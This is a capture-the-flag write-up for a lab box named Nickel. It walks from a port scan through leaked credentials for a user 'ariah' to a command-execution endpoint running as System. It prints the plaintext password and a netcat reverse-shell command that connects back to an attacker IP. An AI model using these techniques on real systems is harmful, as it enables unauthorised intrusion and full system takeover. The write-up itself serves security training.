# Nickel

### Port Scan


## Procedure
🔎 Port 8089 is hosting a web page with some actions.\

🔎 The actions are mapped with an IP of a different host.\


🔎 Port 33333 is also open on this host. The response indicate that GET request
may not be enabled for the endpoints.\


🔑 Using POST requests to list running processes expose a command with the
credentials of the user "ariah" and her password which is base64-encoded
`ariah:NowiseSloopTheory139`.\


🔎 Connecting to the server via ssh to get access as ariah.\


🏳 User flag.\


🔎 The user doesn't have access to the system information.\


🔎 Other information found in the `list-running-procs` endpoint was the location
of some scripts.\


🔎 Downloading and inspecting them reveal that port 80 may be running a web
server with an endpoint to execute commands.\



🔎 It seems that the port is actively listening to connections.\


🔎 The port is running the script as System.\


🔎 Upload a netcat binary.\


💀 With the URL-encoded `C:/temp/nc.exe -e cmd 192.168.49.97 80` command spawn a
reverse shell as System.\


🏴 Administrator flag.\
